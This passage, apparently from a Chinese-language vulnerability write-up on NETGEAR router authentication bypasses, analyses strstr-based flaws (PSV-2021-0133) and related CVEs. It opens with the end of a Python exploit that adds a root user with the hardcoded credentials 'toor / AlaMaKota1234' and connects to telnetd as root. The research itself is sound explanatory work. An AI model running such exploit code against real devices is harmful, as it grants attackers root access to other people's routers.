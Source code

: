 ```python
    add_root_user(NEW_PASSWORD)
    break
  except socket.ConnectionRefusedError:
    print("Sleeping 5 more seconds...")
    time.sleep(5)

print(
  "\n"
  "In the future you can connect as root using these credentials:\n"
  "  toor / AlaMaKota1234\n"
  "\n"
)

print(("-" * 70) + " CONNECTING TO TELNETD AS ROOT")
connect_as_root()
```

0x02 PSV-2021-0133
==================

这也是类似的绕过漏洞，同样出现在NETGEAR中。  
参考链接：<https://ssd-disclosure.com/ssd-advisory-netgear-d7000-authentication-bypass/>  
这里给个简介就行了，原理其实类似，不做过多记录。

```c
LAB_000104f8:

DAT_0001d4ec_needs_auth = 0;

DAT_0001f24c = 0;

}

pcVar4 = (char *)FUN_0000b8f0(1);

iVar3 = strcasecmp(pcVar5,pcVar4);

if ((iVar3 == 0) &&

(pcVar6 = strstr(DAT_0001f330,"todo=PNPX_GetShareFolderList"), pcVar6 != (char *)0x0)) {

DAT_0001d4ec_needs_auth = 0;

}
```

其中`todo=PNPX_GetShareFolderList`使用strstr确定，所以同样的办法可以置flag为1，免去认证，进行任意资源访问。

0x03 思考
=======

这类漏洞，存在的原因，可能是，有一类资源，他们的数据无关紧要，甚至是专门开放给用户的，设计者设计httpd这个项目的时候，考虑到这类资源可能会处于一个增长状态或者过多，静态添加起来复杂，所以设计了一些flag位，这些位置被常常置于请求头，或者一些别的地方，在资源请求之前，身份验证之前做一道验证，即可免去认证。

但是在实现上，使用了strstr函数，和一些别的函数，（可称为弱限制条件搜索函数），这些函数某种程度上减弱了对攻击者数据包的限制条件，导致了绕过认证的出现。

而其中的session字段绕过，可以说是纯纯的代码上的习惯，习惯性的return 0，可能在文件打开的时候，文件不存在直接抛出错误可能好一点。

strstr导致的类似漏洞还有  
**CVE-2020-15633  
CVE-2019-17137**

0x04 参考
=======

<https://www.seebug.org/vuldb/ssvid-99295>